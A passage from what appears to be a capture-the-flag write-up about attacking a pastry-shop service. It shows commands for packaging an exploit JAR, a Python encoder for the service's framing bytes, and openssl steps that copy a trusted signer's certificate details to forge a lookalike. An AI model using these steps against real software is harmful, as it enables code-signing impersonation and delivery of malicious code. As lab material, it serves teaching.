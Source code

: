 ```java
```

Then we may compile and package this into a JAR.

```shell
$ javac NewYorkCheeseCake.java Cake.java
$ cp NewYorkCheeseCake.class it/polimi/necst/johncakedesigner/
$ jar cvf exploit.jar it/
$
```

Let's try sending this to John's Pastry Shop:

Ahh, right we need to encode it again. We have to write another script to do
this:

```python
import sys

inp = sys.argv[1]
outp = sys.argv[2]

INIT_BYTE = chr(0x17)
ESCAPE_BYTE = chr(0x18)
EXIT_BYTE = chr(0x19)

data = file(inp).read()
predata = list(data)
postdata = list(data)
offset = 0
for i in range(len(predata)):
    if predata[i] in [INIT_BYTE, ESCAPE_BYTE, EXIT_BYTE]:
        postdata.insert(i+offset, ESCAPE_BYTE)
        offset += 1

postdata.insert(0, INIT_BYTE)
postdata.insert(len(postdata), EXIT_BYTE)

file(outp, 'w').write("".join(postdata))
```

Encoding the JAR file:

```python
$ python encoder.py exploit.jar encodedexploit.jar
$
```

Now let's try sending it over again:

Ack, so they do verify that the JAR is signed. Well, let's see if we can get our
signing certificate as close to Shamano's one as possible. First, we convert the
certificate found in the original Shamano JAR file and examine it.

```shell
$ openssl pkcs7 -in META-INF/SHAMANO_.RSA -print_certs -inform DER -out shamano.cer
$ openssl x509 -in shamano.cer -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 395913789 (0x17992a3d)
    Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=IT, ST=Italy, L=Milano, O=Shamano Inc., OU=Shamano Cooking Service, CN=Shamano Pastry Shop
        Validity
            Not Before: Apr 15 12:31:11 2015 GMT
            Not After : Aug 31 12:31:11 2042 GMT
        Subject: C=IT, ST=Italy, L=Milano, O=Shamano Inc., OU=Shamano Cooking Service, CN=Shamano Pastry Shop
```

  [Unknown]:  Shamano Pastry Shop
  [Unknown]:  Shamano Cooking Service
  [Unknown]:  Shamano Inc.
  [Unknown]:  Milano
  [Unknown]:  Italy
  [Unknown]:  IT
  [no]:  yes